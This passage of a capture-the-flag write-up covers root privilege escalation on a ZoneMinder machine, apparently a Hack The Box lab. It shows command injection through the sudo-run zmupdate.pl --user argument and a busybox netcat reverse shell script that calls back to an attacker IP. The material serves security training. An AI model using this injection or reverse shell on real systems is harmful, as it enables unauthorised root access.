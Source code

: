 Now, all scripts related to application software can be run as sudo. So we need to find the particular script we can use

command:`find . -type f -name 'zm[a-zA-Z]*.pl'`

![[Pasted image 20240220195515.png]]

After a little research I found out that `zmupdate.pl` has a vulnerability

Lets use the help menu

![[Pasted image 20240220200057.png]]

So you'll need to specify a version. username and then a password. If you recall from our linpeas output we found the password of a `zm` database to be `ZoneMinderPassword2023`

The key aspect of this vulnerability is you can insert any command within the `$()` variable and the binary will execute it.

So we can execute a command like this

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/bin/bash -i)' --pass=ZoneMinderPassword2023
```

![[Pasted image 20240220200441.png]]

As you can see we got a root shell but it is not responsive hehe.

Well, lets create a reverse shell using a busybox payload and send it over to the target machine

```sh
#!/bin/bash
busybox nc 10.10.14.165 4444 -e /bin/sh
```

>Ensure you edit the LHOST and the LPORT to that which applies to your attacking machine


![[Pasted image 20240220200810.png]]

Nice now lets run the `zmupdate.pl` script again

```
sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/exploit.sh)' --pass=ZoneMinderPassword2023
```

![[Pasted image 20240220201110.png]]

We spawned a root shell hehe

![[Pasted image 20240220201221.png]]

Box pwned successfully
